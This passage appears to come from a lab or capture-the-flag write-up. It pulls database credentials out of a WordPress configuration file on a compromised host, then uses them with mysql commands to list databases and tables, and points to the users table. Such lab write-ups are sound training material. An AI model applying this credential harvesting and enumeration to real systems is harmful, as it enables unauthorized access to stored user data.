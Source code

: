 ```bash

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

<SNIP>
```

It exposes DB credential : `shaun` : `password` for the database `wordpress`.

##### Enumerate database on NIX01

Let's investigate database with found credential.

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ mysql -u shaun -ppassword -e "show databases;"
<ess$ mysql -u shaun -ppassword -e "show databases;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
mysql
performance_schema
sys
wordpress
```

As we found, there's a database named `wordpress`.

```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ mysql -u shaun -ppassword -e "use wordpress; show tables;"
<u shaun -ppassword -e "use wordpress; show tables;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_wordpress
wp_commentmeta
wp_comments
wp_links
wp_options
wp_postmeta
wp_posts
wp_term_relationships
wp_term_taxonomy
wp_termmeta
wp_terms
wp_usermeta
wp_users
```

`wp_user` table looks interesting.
